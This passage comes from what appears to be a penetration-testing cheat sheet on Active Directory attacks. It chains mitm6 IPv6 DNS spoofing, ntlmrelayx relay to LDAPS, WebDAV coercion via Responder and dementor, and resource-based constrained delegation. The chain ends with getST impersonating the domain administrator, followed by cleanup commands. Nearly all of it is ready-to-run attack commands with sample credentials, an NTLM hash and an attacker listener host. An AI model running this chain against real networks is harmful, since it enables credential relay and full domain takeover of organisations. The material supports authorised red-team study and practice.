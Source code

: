 {% file src="/.gitbook/assets/From Zero Credential to Full Domain Compromise (Haboob Team).pdf" %}

```
$ ntlmrelayx.py -t ldaps://DC01.megacorp.local --delegate-access -wh attacker-wpad --no-smb-server --no-wcf-server --no-raw-server --no-dump --no-da --no-acl --no-validate-privs [-debug]
$ sudo mitm6 -i eth0 -d megacorp.local --ignore-nofqdn
```




## WebDav + LDAPS NTLM Relay + RBCD

- [https://gist.github.com/gladiatx0r/1ffe59031d42c08603a3bde0ff678feb](https://gist.github.com/gladiatx0r/1ffe59031d42c08603a3bde0ff678feb)
- [https://gist.github.com/zimnyaa/dcac97f3106e96053a1acb6ca9974e55](https://gist.github.com/zimnyaa/dcac97f3106e96053a1acb6ca9974e55)
- [https://pentestlab.blog/2021/10/18/resource-based-constrained-delegation/](https://pentestlab.blog/2021/10/18/resource-based-constrained-delegation/)
- [https://github.com/med0x2e/NTLMRelay2Self](https://github.com/med0x2e/NTLMRelay2Self)
- [https://github.com/BronzeBee/DavRelayUp](https://github.com/BronzeBee/DavRelayUp)

```
$ cme smb 192.168.1.0/24 -u snovvcrash -p 'Passw0rd!' -M webdav
$ ntlmrelayx.py -t ldaps://DC01.megacorp.local --delegate-access [--escalate-user 'PWNED-MACHINE$'] --no-smb-server --no-wcf-server --no-raw-server --no-dump --no-da --no-acl --no-validate-privs
$ sudo ./Responder.py -I eth0 -wd -P -v
$ python dementor.py -d megacorp.local -u snovvcrash -p 'Passw0rd!' attacker@80/test.txt VICTIM.megacorp.local
$ getST.py -spn cifs/VICTIM.megacorp.local MEGACORP/'PWNED-MACHINE$' -dc-ip 192.168.1.11 -hashes :fc525c9683e8fe067095ba2ddc971889 -impersonate administrator
```




## Clean Up

```
PS > Get-ADComputer -Identity FakeMachine | Remove-ADComputer -Confirm:$False
PS > Get-ADComputer -Identity SRV01 -Properties * | select -Expand msds-allowedToActOnBehalfOfOtherIdentity
PS > Get-ADComputer -Identity SRV01 | Set-ADComputer -Clear msds-allowedToActOnBehalfOfOtherIdentity
```

